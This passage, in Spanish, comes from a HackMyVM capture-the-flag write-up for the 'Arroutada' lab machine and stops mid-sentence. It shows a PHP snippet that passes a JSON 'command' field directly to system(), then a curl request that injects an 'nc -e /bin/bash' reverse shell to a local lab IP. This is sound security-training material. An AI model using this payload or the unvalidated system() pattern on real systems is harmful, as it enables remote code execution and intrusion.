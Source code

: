 Ahora ya tenemos acceso al puerto, vemos una web con un código.

![](/assets/img/posts/arroutada/localhost.png)

El código parece codificado en lenguaje brainfuck, para decodificarlo nos vamos a [esta página](https://www.dcode.fr/brainfuck-language), descubrimos el texto decodificado 

`all HackMyVM hackers!!`

Buscamos más pistas en el código fuente y encontramos lo siguiente:

![](/assets/img/posts/arroutada/sanitize.png)

Nos metemos en localhost:8000/priv.php y nos encontramos este código

```php
Error: the "command" parameter is not specified in the request body.
/*
$json = file_get_contents('php://input');
$data = json_decode($json, true);
if (isset($data['command'])) {
    system($data['command']);
} else {
    echo 'Error: the "command" parameter is not specified in the request body.';
}
*/
```

El código permite ejecución de comando remoto, ya que no valida ni verifica el dato _`command`_.

Probamos a usar una revsershell con curl desde el parámetro command:

```zsh
curl -X POST "localhost:8000/priv.php" -d '{"command":"nc -e /bin/bash 192.168.0.162 4321"}'
```

Desde el puerto en escucha 1234 conseguimos pivotar a ditro, usamos: 
